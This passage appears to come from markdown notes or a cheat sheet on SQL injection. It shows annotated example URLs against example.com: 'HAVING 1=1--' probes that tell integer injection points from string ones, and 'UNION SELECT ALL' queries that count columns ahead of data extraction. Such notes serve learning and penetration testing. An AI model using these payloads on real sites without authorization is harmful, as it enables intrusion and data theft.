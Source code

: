             # check to see if it is an integer type injection
            http://example.com/page.asp?id=1 HAVING 1=1--
            # you can check the error message you get back to see whether the type was
            # wrong (i.e. its not an Integer) or something else went wrong (which implies
            # type is correct)

            # given injection poing
            http://example.com/page.asp?id=xyz

            # checking to see if it is string injeciton point (note use of ')
            http://example.com/page.asp?id=xyz' having 1=1--
            # again the error message will tell you whether you have the type correct or not
            ```
        * union: great for data extraction
            ```
            # given an injection point of type Integer
            http://example.com/page.asp?id=1

            # now figure out how many columns you need to have in the union to match
            # the original query (keep going until you don't get an error anymore
            http://example.com/page.asp?id=1 UNION SELECT ALL 1--
            # error
            http://example.com/page.asp?id=1 UNION SELECT ALL 1,2--
            # error
            http://example.com/page.asp?id=1 UNION SELECT ALL 1,2,3--
            # no error
